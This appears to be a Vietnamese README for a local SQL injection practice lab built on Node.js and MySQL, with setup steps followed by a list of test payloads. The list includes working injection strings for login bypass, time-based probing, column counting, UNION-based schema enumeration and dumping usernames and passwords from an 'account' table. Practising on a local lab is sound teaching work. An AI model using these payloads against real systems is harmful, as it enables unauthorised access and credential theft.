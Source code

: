 1. Cài ứng dụng
    - Nodejs
    - MySql
    - Vscode

2. Vào ứng dụng MySql và tạo một database "sql_injection"

3. Import database trong thư mục database vào mysql

4. Mở project bằng Vscode

5. Vào file database.js (model/database.js) chỉnh sửa "username" (dòng 5) và "password" (dòng 6) - chính là username và password của database cần kết nối

6. Mở terminal (cmd)

7. Gõ lệnh: 
    - npm install --global yarn (Nếu đã cài yarn thì không cần thực hiện câu lệnh này)
    - yarn
    - yarn start

8. Mở trình duyệt với url: "http://localhost:3000"

9. Các câu lệnh tấn công thử trên web:
    - ' OR 1 = 1 --
    - ' AND SLEEP(1) --
    - ' ORDER BY 4 --
    - ' ORDER BY 5 --
    - ' UNION SELECT 1, 2, 3, 4 --
    - ' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() -- ' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' --
    - ' UNION SELECT id, password, username, 4 FROM account --

10. Note:
    - Trường hợp xảy ra lỗi khi chạy "yarn start" xem tại link "https://stackoverflow.com/questions/50093144/mysql-8-0-client-does-not-support-authentication-protocol-requested-by-server"
    - Đằng sau mỗi dấu -- ở phần 8 luôn có 1 dấu cách